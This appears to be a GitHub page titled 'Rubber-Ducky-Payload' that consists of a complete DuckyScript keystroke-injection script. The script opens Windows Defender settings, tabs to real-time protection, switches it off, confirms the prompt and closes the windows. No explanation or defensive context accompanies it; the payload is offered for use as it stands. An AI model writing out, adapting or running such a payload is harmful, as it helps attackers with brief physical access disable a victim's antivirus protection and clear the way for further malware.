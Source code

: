 # Rubber-Ducky-Payload

Disable Av Via clicking 

DELAY 1000
REM Open Windows Defender settings
CTRL ESC
DELAY 1000
STRING Windows Defender Settings
DELAY 100
ENTER
REM Navigate to realtime protection and disable it
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 250
TAB
DELAY 250
TAB
DELAY 250
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 500
ENTER
REM Close Settings
DELAY 500
ALT F4
DELAY 100
ALT F4
